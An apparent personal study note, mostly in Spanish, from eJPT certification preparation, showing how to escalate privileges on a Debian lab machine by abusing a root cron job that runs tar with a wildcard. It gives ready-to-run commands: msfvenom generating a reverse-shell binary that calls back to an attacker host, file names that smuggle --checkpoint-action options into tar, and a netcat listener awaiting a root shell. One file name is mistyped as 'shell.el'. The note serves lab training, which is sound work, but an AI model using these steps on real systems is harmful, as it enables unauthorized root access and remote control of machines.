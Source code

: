 - Vea el contenido del otro script de trabajo cron:

```
cat /usr/local/bin/compress.sh
```
Tenga en cuenta que el comando tar se ejecuta con un comodín (*) en su directorio de inicio.

- Eche un vistazo a la página GTFOBins para encontrar tar. Tenga en cuenta que tar tiene opciones de línea de comando que le permiten ejecutar otros comandos como parte de una función de punto de control.

- Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

- Transfiera el archivo shell.elf a /home/user/ en la máquina virtual Debian (puede usar scp o alojar el archivo en un servidor web en su Kali Box y usar wget). Asegúrese de que el archivo sea ejecutable:

```
chmod +x /home/user/shell.elf
```
- Cree estos dos archivos en /home/user:

```
touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.el 
```

- Cuando se ejecuta el comando tar en el trabajo cron, el comodín (*) se expandirá para incluir estos archivos. Dado que sus nombres de archivos son opciones de línea de comando tar válidas, tar los reconocerá como tales y los tratará como opciones de línea de comando en lugar de nombres de archivo.

- Configure un detector de netcat en su caja Kali en el puerto 4444 y espere a que se ejecute el trabajo cron (no debería tardar más de un minuto). Un shell raíz debería conectarse nuevamente a su oyente netcat.

```
nc -nvlp 4444
```

- Recuerde salir del shell raíz y eliminar todos los archivos que creó para evitar que el trabajo cron se ejecute nuevamente:

```
rm /home/user/shell.elf  
rm /home/user/--checkpoint=1  
rm /home/user/--checkpoint-action=exec=shell.elf
```

enlace:
[[Local/Ciberseguridad/HACKING/CERTIFICACIONES/EJPT/Preparacion-Ejpt]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Cron Jobs - PATH Environment Variable]]
[[Apuntes/Ciberseguridad/HACKING/TECNICAS DE ESCALACION DE PRIVILEGIOS/Linux/Cron Jobs - File Permissions]]